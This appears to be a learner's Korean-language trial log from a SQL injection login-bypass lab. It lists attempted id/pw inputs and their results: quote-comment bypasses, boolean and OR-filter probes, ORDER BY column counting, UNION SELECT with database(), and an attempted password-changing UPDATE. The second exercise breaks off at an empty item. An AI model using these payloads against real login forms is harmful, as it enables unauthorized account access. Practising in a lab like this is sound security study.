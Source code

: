 # login bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# login bypass 4
1. 
id: doldol' or '1' = '1
pw: dol1234
-> x
2. 
id: doldol'#
pw: dol1234
3. 
id: doldol'or
pw: dol1234
-> x
4. 
id: doldol')#
pw: dol1234
-> x
5. 